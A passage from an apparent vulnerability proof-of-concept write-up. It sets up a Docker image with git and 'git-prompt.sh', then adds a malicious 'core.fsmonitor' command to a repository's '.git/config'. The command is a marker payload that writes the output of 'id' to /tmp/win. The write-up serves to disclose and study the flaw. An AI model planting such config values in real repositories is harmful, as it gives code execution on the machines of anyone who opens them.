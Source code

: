 Build a Docker image that contains `git`, a simple Git user configuration, `git-prompt.sh` and a `.bashrc` file configured as advised by the Git documentation:

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y wget git && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com" && \
    wget -O ~/git-prompt.sh https://raw.githubusercontent.com/git/git/v2.32.0/contrib/completion/git-prompt.sh && \
    echo '. ~/git-prompt.sh' >> ~/.bashrc && \
    echo 'export GIT_PS1_SHOWDIRTYSTATE=1' >> ~/.bashrc && \
    echo 'export PS1='\''\w$(__git_ps1 " (%s)")\$ '\' >> ~/.bashrc

% sudo -g docker docker build --tag=justinsteven/git-prompt.sh .
[... SNIP ...]
Successfully built 39b7b65f5c72
Successfully tagged justinsteven/git-prompt.sh:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/git-prompt.sh bash
/#
```

Create an empty Git repo:

```plain
/# cd $(mktemp -d)

/tmp/tmp.BulVIpkd2j# mkdir poc

/tmp/tmp.BulVIpkd2j# git -C poc init
Initialized empty Git repository in /tmp/tmp.BulVIpkd2j/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
/tmp/tmp.BulVIpkd2j# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

/tmp/tmp.BulVIpkd2j# cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```
